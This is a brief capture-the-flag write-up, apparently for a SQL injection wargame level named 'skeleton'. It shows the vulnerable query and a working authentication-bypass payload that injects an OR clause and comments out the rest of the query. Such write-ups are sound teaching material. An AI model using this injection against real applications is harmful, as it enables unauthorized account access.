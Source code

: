 ```yaml
---
custom_edit_url: null
sidebar_position: 10
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/4baddc49-08d9-4c11-a1da-59d9e17e5687)

We are provided with the SQL query:

```sql
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='{$_GET[pw]}' AND 1=0
```

We can provide the following URI parameter:

```
?pw=' OR id='admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='' OR id='admin' -- -' AND 1=0

## Queried part:
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='' OR id='admin'

## Commented part:
' AND 1=0
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/373ff0c7-ad97-4cd5-b184-95092bfb7d41)
